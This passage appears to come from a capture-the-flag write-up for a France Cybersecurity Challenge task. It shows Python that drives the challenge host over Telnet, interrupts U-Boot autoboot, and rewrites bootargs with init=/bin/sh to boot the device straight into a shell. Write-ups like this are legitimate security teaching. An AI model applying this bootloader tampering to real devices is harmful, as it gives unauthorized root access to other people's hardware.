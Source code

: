 ```py
    for char in text:
        # I added a + 1 because I had an offset of 1 between the remote_encoding array here and the observed remote encoding
        # It was simpler to fix like that
        encoded_bytes += (remote_encoding.index(char) + 1).to_bytes(1, "big")
    return encoded_bytes
```

Let's use this function in a separate script to send the commands we want to the server.

```py
from telnetlib import Telnet
from remote_encoding import ascii_to_remote
from proof_of_work import solve_pow

host = "challenges.france-cybersecurity-challenge.fr"
port = 2303

if __name__ == "__main__":
    io = Telnet(host, port)
    solve_pow(io)

    io.write(b"A") # press any key to stop the autoboot and access the u-boot shell

    io.write(ascii_to_remote('echo "HELLO WORLD!!"\n'))

    while True:
        read = io.read_until(b"\n").strip().decode()
        print(read)
```

If we run it, in the output of the script, after all the bootloader information...

```
...
Hit any key to stop autoboot:  0
=> echo "HELLO WORLD!!"
HELLO WORLD!!
```

It works!!

## The deception

The encoding script working properly, I immediately used it to run the commands to update the `bootargs` environment variable to replace init with a shell. I print the environment to check if the modification was applied and just boot the kernel using the same command sequence that is inside the `bootcmd` variable. Replacing only the echo command part of the previous script:

```py
io.write(ascii_to_remote("setenv bootargs console=ttyS0 init=/bin/sh autoplay=/bin/sh\n"))
io.write(ascii_to_remote("printenv\n"))
io.write(ascii_to_remote("sf probe; sf read $kernel_addr_r 0 9bc8b; booti $kernel_addr_r - $fdtcontroladdr\n"))
```
